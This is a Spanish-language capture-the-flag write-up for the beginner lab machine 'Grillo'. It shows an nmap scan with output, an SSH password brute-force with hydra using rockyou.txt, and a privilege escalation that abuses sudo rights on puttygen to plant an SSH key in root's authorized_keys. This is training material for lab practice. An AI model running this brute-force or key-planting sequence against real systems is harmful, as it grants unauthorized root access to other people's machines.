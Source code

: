 ```yaml
---
title: 'The Hackers Labs: Grillo'
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Página de la máquina:** [https://labs.thehackerslabs.com/machines/43](https://labs.thehackerslabs.com/machines/43)

![Grillo](/thl/principiante/grillo/grillo.png)

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 5000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

# Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/thl/principiante/grillo/defaul-page.png)

![Comentario](/thl/principiante/grillo/comentario.png)

---

# Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt 192.168.100.7 ssh -t 64
```

Se encuentra la contraseña válida: **trustno1**

![Hydra](/thl/principiante/grillo/hydra.png)

---

# Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

![nopasswd](/thl/principiante/grillo/nopasswd.png)

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

> 💡 *Nota:* Es posible que tengas que crear la carpeta `.ssh` manualmente con `mkdir ~/.ssh` si no existe.

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.100.7:/home/melanie/.ssh/id .
ssh -i id root@192.168.100.7
```

Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda en ~/.ssh/id. Luego, se extrae la clave pública desde ese archivo y se agrega al final de ~/.ssh/authorized_keys para habilitar el acceso por clave. Posteriormente, la clave privada se transfiere al directorio seguro /root/.ssh/, y la pública se exporta en formato OpenSSH a /root/.ssh/authorized_keys, permitiendo así la autenticación como root. Finalmente, se copia la clave privada desde la máquina remota a tu entorno local mediante scp, y se establece la conexión SSH con el usuario root usando:

Con esto obtenemos acceso completo como root.

---

# 🎉 ¡Root conseguido!

![root](/thl/principiante/grillo/root.png)

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
